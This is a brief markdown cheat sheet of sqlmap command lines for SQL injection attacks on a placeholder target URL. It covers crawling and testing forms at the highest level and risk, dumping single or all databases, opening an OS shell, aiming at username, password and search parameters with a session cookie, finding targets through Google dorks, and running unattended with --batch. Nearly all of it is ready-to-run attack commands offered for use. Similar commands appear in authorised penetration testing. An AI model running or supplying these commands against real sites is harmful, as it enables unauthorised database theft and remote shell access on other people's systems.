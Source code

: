 # Crawl the web page and test all forms (Requires a lot of user interaction)
``` sqlmap -u $url --crawl --forms --level 5 --risk 3 ```

# Enter sqlmap interactive shell

```sqlmap --shell```

# Test for write privileges and get a shell

``` sqlmap -u $url --os-shell```

# Enumerate databases

```sqlmap -u $url --dbs```

# Dump databases

```sqlmap -u $url --dump```

## Most often I use something like:

```sqlmap -u $url --dump --crawl --forms --level 5 --risk 3```

### And/Or

```sqlmap -u $url --dump --crawl=2 --forms --level 5 --risk 3```
```sqlmap -u $url --dump-all --crawl=2 --forms --level 5 --risk 3```
```sqlmap -u $url --dump --cookie=$cookie --level 5 --risk 3```
```sqlmap -u $url --os-shell --cookie=$cookie --level 5 --risk 3```
```sqlmap -u $url -p=username --dump --cookie=$cookie --level 5 --risk 3```
```sqlmap -u $url -p=password --dump --cookie=$cookie --level 5 --risk 3```
```sqlmap -u $url -p=search --dump --cookie=$cookie --level 5 --risk 3```

# Session Handling

```sqlmap -u $url --cookie=$cookie --level=5 --risk=3 --forms```
```sqlmap -u $url --cookie=$cookie --forms --level=5 --risk=3 --forms```

# SQLMap'ing with OSINT

```sqlmap -u $url -g site: --level=5 --risk=3 --forms```
```sqlmap -u $url -g url: --level=5 --risk=3 --forms```
```sqlmap -u $url -g page: --level=5 --risk=3 --forms```

# Interaction(less) sqlmap

 - Append ```--batch``` to any of the previous commands
